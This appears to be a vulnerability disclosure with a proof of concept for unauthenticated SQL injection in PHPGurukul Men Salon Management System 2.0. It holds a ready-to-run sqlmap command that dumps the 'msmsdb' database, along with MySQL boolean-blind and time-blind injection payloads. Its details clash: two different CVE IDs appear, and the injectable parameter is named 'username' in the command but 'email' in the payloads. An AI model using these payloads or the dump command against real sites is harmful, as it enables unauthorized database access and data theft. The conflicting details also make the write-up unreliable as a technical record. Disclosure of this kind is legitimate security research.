 # CVE-2024-30998-PHPGurukul-Men-Salon-Management-System-2.0-SQL-Injection-Vulnerability (Unauthenticated)
+ Exploit Author: efekaanakkar
# Vendor Homepage
+ https://phpgurukul.com/men-salon-management-system-using-php-and-mysql
# Software Link
+ https://phpgurukul.com/?sdm_process_download=1&download_id=14066
# Overview
+ PHPGurukul Men Salon Management System V2.0 is susceptible to a A notable security weakness stems from inadequate safeguarding of the 'Username' parameter within the admin/index.php file. This vulnerability has the potential to be exploited for injecting harmful SQL queries, resulting in unauthorized access and extraction of confidential data from the database.
# Vulnerability Details
+ CVE ID: CVE-2024-35511
+ Affected Version: PHPGurukul Men Salon Management System 2.0 
+ Parameter Name: email
# References
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-35511
# Description
+ Inadequate validation and sanitization of the 'username' parameter pave the way for attackers to construct SQL injection queries, circumventing authentication measures and obtaining unauthorized entry to the database.
# Proof of Concept (PoC) : 
+ `sqlmap -u "http://192.168.1.62/msms/admin/index.php" --cookie="PHPSESSID=e6rliepf62icdselerob8iuloj; Security_level=0" --data="username=admin&password=admin&login=Sign+In" -p"username" --random-agent --level 3 --risk 3 -D "msmsdb" --dump --tables`

```
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: email=test@test.com' RLIKE (SELECT (CASE WHEN (8847=8847) THEN 0x7465737440746573742e636f6d ELSE 0x28 END)) AND 'ZHEF'='ZHEF&sub=submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=test@test.com' AND (SELECT 8859 FROM (SELECT(SLEEP(5)))DjVt) AND 'ZEmv'='ZEmv&sub=submit
---

```
+ current database: `msmsdb`
![image](https://github.com/efekaanakkar/CVEs/assets/130908672/7cf45037-3e64-4fff-8337-86292c34ddd2)
